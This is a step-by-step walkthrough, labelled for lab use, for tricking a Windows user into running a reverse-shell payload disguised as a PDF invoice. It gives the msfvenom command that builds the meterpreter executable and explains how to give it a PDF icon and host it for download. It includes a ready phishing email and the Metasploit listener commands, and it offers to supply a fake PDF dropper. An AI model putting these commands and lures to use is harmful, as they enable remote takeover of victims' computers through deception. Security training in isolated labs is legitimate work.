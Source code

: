 🕵️‍♂️ Realistic Windows Payload Delivery (For Lab Use Only)
🎯 Goal:
Victim gets a legit-looking file (e.g., PDF, EXE with icon), opens it, and a reverse shell connects to your Kali system.

🧑‍💻 LAB SETUP
Role	System	IP
Attacker	Kali Linux	192.168.56.146
Victim	Windows 10	192.168.56.147



✅ STEP 1: Create Realistic Payload with Icon

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.146 LPORT=4444 -f exe -o invoice.exe
(Rename it to look like an invoice or resume)



🎨 (Optional) Add PDF Icon (to make it look real)
Install Resource Hacker on Windows or use wine on Kali to add a PDF icon.

Alternative: Use this tool (in Kali): (Change icon for invoice.exe → add pdf.ico)

apt install wine
wget https://github.com/megadose/Windows-Exploit-Suggester/blob/master/icons/pdf.ico
wine ResourceHacker.exe


🌐 STEP 2: Host the EXE file


cd ~/Desktop
python3 -m http.server 8080


Now the link becomes:   http://192.168.56.146:8080/invoice.exe

You can even use a URL shortener like bitly or is.gd (inside your lab)




🧑‍💻 STEP 3: Victim Downloads and Runs
Send message like:

🔔 URGENT: Kindly download the attached invoice and verify it for accounting.
📎 http://192.168.56.146:8080/invoice.exe

Victim opens in browser → downloads → runs → reverse shell triggers.



🧠 STEP 4: Listener on Kali (as always)  :  
msfconsole




use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.146
set LPORT 4444
exploit


Now once victim runs it, you'll get:  [*] Meterpreter session 1 opened ...

✅ BONUS: Fake PDF Dropper
To make it look more realistic, you can use a script to open a real PDF alongside the reverse shell:

Real PDF: invoice.pdf

Fake EXE: runs shell + opens real PDF

Ask if you want this setup too (I can give you bat to exe + script method).


📁 Example Social Engineering Message (Lab Only)



Subject: Invoice Due - Please Verify

Hi,

Please find attached the invoice for the recent purchase. Let us know if you notice any discrepancy.

[Click to view invoice](http://192.168.56.146:8080/invoice.exe)

Regards,  
Accounts Team














